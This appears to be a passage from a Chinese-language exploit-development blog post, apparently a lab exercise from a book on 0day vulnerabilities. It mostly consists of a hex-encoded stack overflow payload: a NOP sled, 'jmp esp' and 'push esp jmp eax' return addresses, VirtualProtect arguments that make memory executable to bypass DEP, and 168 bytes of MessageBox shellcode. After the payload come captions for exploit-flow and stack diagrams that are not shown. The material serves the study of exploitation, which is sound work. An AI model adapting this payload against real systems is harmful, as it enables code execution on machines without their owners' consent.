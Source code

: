 ```c
// 4	nop
"\x90\x90\x90\x90"
// 4	push esp jmp eax
"\xc6\xc6\xeb\x77"
// 4	argument for VirtualProtect: Size
"\xFF\x00\x00\x00"
// 4	argument for VirtualProtect: NewProtect
"\x40\x00\x00\x00"
// 4	push esp jmp eax
"\xc6\xc6\xeb\x77"
// 8	nop
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
// 4	change attribute of mem
"\xd9\x1a\x80\x7c"
// 4	nop
"\x90\x90\x90\x90"
// 4	jmp esp
"\xd7\x30\x5a\x7d"
// 20	nop
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
// 168	messagebox
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8"
;
```

下图是整个漏洞利用过程的示意图：

![Bildschirmfoto 2018-10-01 um 11.42.11 AM.png]({{ site.url }}/images/0day/7E85B07606531235ACA1B988D3A5D8F2.png)

下图是转入VirtualProtect前的栈上示意图：

![Bildschirmfoto 2018-10-01 um 11.42.18 AM.png]({{ site.url }}/images/0day/D37B217F23A39B4BA74756AEF73329BE.png)

测试：

![Bildschirmfoto 2018-09-28 um 4.34.00 PM.png]({{ site.url }}/images/0day/C6E171BFC33884BE5A5262A67F002E90.png)
